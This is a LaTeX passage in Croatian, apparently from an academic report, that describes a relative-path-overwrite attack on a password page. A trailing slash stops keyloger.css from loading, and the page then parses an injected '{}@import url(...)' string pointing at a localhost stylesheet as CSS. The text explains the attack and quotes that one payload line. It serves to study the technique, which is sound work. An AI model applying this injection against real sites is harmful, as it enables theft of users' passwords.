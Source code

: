 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_val.jpg}
		\caption{Web stranica poslije unosa lozinke} \label{fig:css_val}
	\end{center}
\end{figure}

\subsection{Opis napada}
Opisana web stranica učitava CSS preko \texttt{link} elementa, koji \texttt{href} atribut postavljen na vrijednost \texttt{keyloger.css}. Pošto nije dana puna putanja do \texttt{keyloger.css} dokumenta, PHP server interpretira tu vrijednost kao relativnu putanju u odnosu na putanju web stranice, odnosno dokumenta \texttt{second.php} u kojoj se nalazi kod za ovu web stranicu. Međutim, ako se na kraj URL-a doda znak \texttt{/}, stranica se prikazuje bez da je učitan \texttt{keyloger.css}. Kako se na ovoj stranici nalazi tekst \texttt{{}@import url("http://localhost:8080/mid.css");}, tako stranica interpretira ovaj dio HTML-a kao CSS. Razlog zašto se to događa je taj što znakovi \texttt{\{\}} isprovociraju CSS parser da prepozna taj dio HTML-a kao CSS. Na sljedećoj slici \ref{fig:css_slh} se može vidjeti primjena \texttt{mid.css} dokumenta na web stranicu.

}
\end{document}
